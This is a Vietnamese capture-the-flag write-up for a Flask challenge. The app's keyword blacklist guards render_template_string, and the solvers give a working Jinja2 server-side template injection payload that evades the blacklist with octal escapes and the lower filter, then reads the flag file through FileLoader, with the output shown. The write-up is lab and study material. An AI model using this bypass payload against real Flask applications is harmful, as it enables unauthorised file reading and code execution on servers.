 # thru_the_filter
**Solver: phulelouch & goldensang**

### 1. Context
Nhìn sơ qua các file nhé
*docker-entrypoint.sh*
```shell
#!/bin/sh

# Generate random flag name
random_flag_name="flag_$(cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 10 | head -n 1).txt"

# Specify flag content
flag_content="ISITDTU{test_flag}"

# Move flag file to root directory
echo "$flag_content" > /"$random_flag_name"

# Set permissions for flag file
chmod 744 /"$random_flag_name"

# Get the user
user=$(ls /home)

# Set permissions for /app directory
chmod 740 /app/*

# Change directory and run Flask
cd /app && flask run -h 0.0.0.0 -p 8080
```
*Dockerfile*
```shell
FROM python:3.10-slim-bullseye
LABEL auther_template="khanhhnahk1"


RUN sed -i 's/deb.debian.org/mirrors.ustc.edu.cn/g' /etc/apt/sources.list && \
    sed -i 's/security.debian.org/mirrors.ustc.edu.cn/g' /etc/apt/sources.list
RUN apt-get update 

# install flask
RUN python3 -m pip install -i https://pypi.tuna.tsinghua.edu.cn/simple \
    flask

# Copy the source code and startup script to the root directory
COPY ./src/ /app
COPY ./service/docker-entrypoint.sh /

# expose port
EXPOSE 8080
RUN groupadd -r thru_the_filter && useradd -r -g thru_the_filter thru_the_filter
RUN echo "ISITDTU{test_flag}"> /app/flag.txt
RUN chmod 440 /app/flag.txt
RUN chown -R root:thru_the_filter /app


USER thru_the_filter

WORKDIR /app
ENTRYPOINT ["/bin/bash","/docker-entrypoint.sh"]
```
*app.py*
```python
from flask import Flask, request, render_template_string,redirect

app = Flask(__name__)
def check_payload(payload):
    blacklist = ['import', 'request', 'init', '_', 'b', 'lipsum', 'os', 'globals', 'popen', 'mro', 'cycler', 'joiner', 'u','g','args', 'get_flashed_messages', 'base', '[',']','builtins', 'namespace', 'self', 'url_for', 'getitem','.','eval','update','config','read','dict']
    for bl in blacklist:
        if bl in payload:
            print(bl)
            return True
    return False
@app.route("/")
def home():
    if request.args.get('c'):
        ssti=request.args.get('c')
        if(check_payload(ssti)):
            return "HOLD UP !!!"
        else:
            return render_template_string(request.args.get('c'))
    else:
        return redirect("""/?c={{ 7*7 }}""")


if __name__ == "__main__":
    app.run()

```

Nhìn sơ qua app thì ta có thể thấy được, flow chạy của application sẽ như sau:
- Build application với Dockerfile với image là:  python:3.10-slim-bullseye
- Dockerfile sẽ trỏ tới docker-entrypoint.sh
- docker-entrypoint.sh sẽ chạy file app.py dùng Flask.

Observation từ các file docker nói chung:
- những cái màu mè từ phải docker-entrypoint.sh có thể bỏ qua, flag dc lưu ở /app/flag.txt như trong file Dockerfile, chủ yếu là distraction, những cái màu mè ở file docker-entrypoint.sh thì làm mọi ng distract, nếu có RCE thì may ra làm theo hướng exploit cái đó dc :v còn không thì nên focus vô.
- file flag dc set quyền 440, nghĩa là chỉ owner của file với group dc trao quyền mới đọc được, nghĩa là phải exec code từ server-side, và tìm cách đẩy lên browser để mà ae mình lấy flag -> ý tưởng SSTI
- trong lúc làm bài, có ý tưởng làm XSS, nhưng code exec ở phía client-side, nên cũng no-hope.

Phân tích *app.py*:
- Xài Flask, và có một checkpoint check blacklist trong string, chỉ cần match string là fail
- Và blacklist khá gắt, nên phải tìm cách bypass từng cái một
- render_template_string() là nơi có thể exploit nhất, đặc biệt với SSTI, giờ chỉ cần tìm payload phù hợp
- đọc thêm SSTI ở: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md

Tóm tắt SSTI ở bài này:
- Cơ chế hoạt động là nó xài Jinja String Template để render HTML, nói nôm na là 1 file template HTML, nó có những syntax để mình bỏ biến vô, nhưng rất hạn chế.
- Payload để prove SSTI work với bài này mà mình với anh Phú xài: `http://34.124.244.195:1338/?c={{7*7}}`
- blacklist block hết các hàm phổ biến, nên phải mò kinh thánh một hồi mới mò ra được các thứ nó work

Cách mình với anh Phú xây dựng payload:
```
http://34.124.244.195:1338/?c={{7*7}}

Dựa trên phần Jinja2 - Filter bypass kinh thánh, thì tụi mình test thử payload này

{{request|attr('application')()}}
Mà nó chặn request rồi, mà tụi nó không chặn string nên payload nó thành như vầy

{{ ''.__class__.__mro__[2].__subclasses__()}}

Nhưng gặp phải blacklist _, [, ] và cả class, sau một hồi mình mò, thì nhận ra là combine 2 tụi nó lại, tụi mình có thể forge payload nó nhin như thế này:
{{'' | attr('asdfsdaf')()}}

Thì nó chuyển về xử lý string hết, và attr() ko bị block
- Để solve _ thì tụi mình có thể convert nó qua %x5f, %X5f, và bí một hồi thì mới nhận ra chuyển qua octa cũng được =)) nên thành \137
- Có được insights này thì tụi mình nhận ra là convert những ký đặc biệt bị block qua octa, và những từ bị block thành dạng 'ABC' | lower (này search chatgpt với google ra dc syntax của Jinja, syntax tụi nó vậy)

'ABC' | lower => 'abc'
'\137' => '_' 
Rồi với những insights này thì việc còn lại là dò theo payload, convert nó qua định dạng không bị block, ban đầu tụi mình thử exploits hàm Popen, mà nó bủh quá, anh Phú tìm 1 hồi ra được cái hàm FileLoader trong hệ thống của python

Payload:
http://34.124.244.195:1338/?c={{''|
attr('\137\137CLASS\137\137'|lower)|
attr('\137\137MRO\137\137'|lower)|
last|
attr('\137\137SUBCLASSES\137\137'%20|%20lower()|
attr('\137\137GETITEM\137\137'%20|%20lower)(118)("/APP/FLAG\056TXT","/APP/FLAG\056TXT")|
attr('GET\137DATA'%20|%20lower)("/APP/FLAG\056TXT"|lower)}}

Tóm tắt cơ chế hoạt động, thì python nó có chỗ lưu các biến, hàm global hoặc ngoài context của class, cái này mọi người đọc.
Thì mò một hồi, ra được cái hàm này :v đấm phát ăn luôn flag
b'ISITDTU{tough_times_create_tough_guys!@@%#0@}\n'
```

But faster: https://github.com/Marven11/Fenjing :(
reference: https://ctftime.org/writeup/17686
